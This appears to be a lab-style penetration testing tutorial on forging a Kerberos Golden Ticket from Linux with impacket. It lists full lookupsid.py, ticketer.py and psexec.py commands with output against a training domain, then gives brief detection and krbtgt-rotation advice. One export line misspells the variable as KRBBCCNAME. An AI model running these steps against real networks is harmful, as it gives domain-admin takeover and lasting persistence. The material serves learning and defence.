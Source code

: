 # Golden Ticket from Linux

## Linux

- On the Linux side, **impacket** can be used to craft a **Golden Ticket**. [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) will help us retrieve the domain SID and every group and user SID. 

## Search for the Domain SID with lookups 

![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids-2.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids-3.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/lookupsids-4.png)

 

	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids
	
	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids  sids 
	
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - f
	orked by ThePorgs                                                                   
		                                                                               
	Password:                                                                           
	[*] Brute forcing SIDs at dc01.inlanefreight.local                                  
	[*] StringBinding ncacn_np:dc01.inlanefreight.local[\pipe\lsarpc]                   
	[*] Domain SID is: S-1-5-21-1870146311-1183348186-593267556                         
	498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)           
	500: INLANEFREIGHT\Administrator (SidTypeUser)                                      
	501: INLANEFREIGHT\Guest (SidTypeUser)                                              
	502: INLANEFREIGHT\krbtgt (SidTypeUser)                                             
	512: INLANEFREIGHT\Domain Admins (SidTypeGroup)                                     
	513: INLANEFREIGHT\Domain Users (SidTypeGroup)
	
	
 - Once we have the domain SID, we can craft a **Golden Ticket** using [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py). 


## Creating the Golden Ticket 


	> ticketer.py -nthash c0231bd8a4a4de92fca0760c0ba9e7a6 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local Administrator

	ticketer.py -nthash c0231bd8a4a4de92fca0760c0ba9e7a6 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local Administrator
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Creating basic skeleton ticket and PAC Infos
	[*] Customizing ticket for inlanefreight.local/Administrator
	[*]     PAC_LOGON_INFO
	[*]     PAC_CLIENT_INFO_TYPE
	[*]     EncTicketPart
	[*]     EncAsRepPart
	[*] Signing/Encrypting final ticket
	[*]     PAC_SERVER_CHECKSUM
	[*]     PAC_PRIVSVR_CHECKSUM
	[*]     EncTicketPart
	[*]     EncASRepPart
	[*] Saving ticket in Administrator.ccache



!{ticketer}(![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/images/ticketer.png) 



- The ticket has been forged and saved in the current directory as **Administrator.ccache**. We can now use this ticket by importing it in **KRB5CCNAME** environment variable and using any impacket tool with the **-k** parameter. 


## Importing and Using the Golden Ticket

	> export KRBBCCNAME=./Administrator.ccache 
	

![Import Ticket] (/Ticket-Abuse/Golden-Tickets-Linux/images/import-ticket.png) 


## You're FUCKED!!

	> psexec.py -k -no-pass dc01.inlanefreight.local
	> echo 'hacker ip  hacker dns' >> \Windows\System32\Drivers\etc\hosts
	> type \Windows\System32\Drivers\etc\hosts


	
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd-2.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd-3.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/images/fukd-4.png) 

## Detection

This type of persistence is **challenging to detect because Golden Tickets are valid TGTs**. **Windows event logs don’t distinguish between a legitimate TGT and a maliciously crafted Golden Ticket**. Also, resetting the impersonated account’s password does not invalidate the ticket.

**Golden tickets are usually created with a much longer lifespan than tickets have by default (Mimikatz makes golden tickets with a default lifespan of 10 years)**. Certain AD monitoring products can detect these **long ticket lifespans as IoC**s.

Golden Tickets can be detected in a few ways: 

1. The account DOMAIN field is blank. 

2. The account DOMAIN field contains DOMAIN FQDN instead of just domain. 


Once a **golden ticket is detected**, the **krbtgt account password must be changed twice to remove the persistence**, as the current and previous passwords are stored in the domain. **The password of the krbtgt account should be changed regularly**, as it is an admin account. 

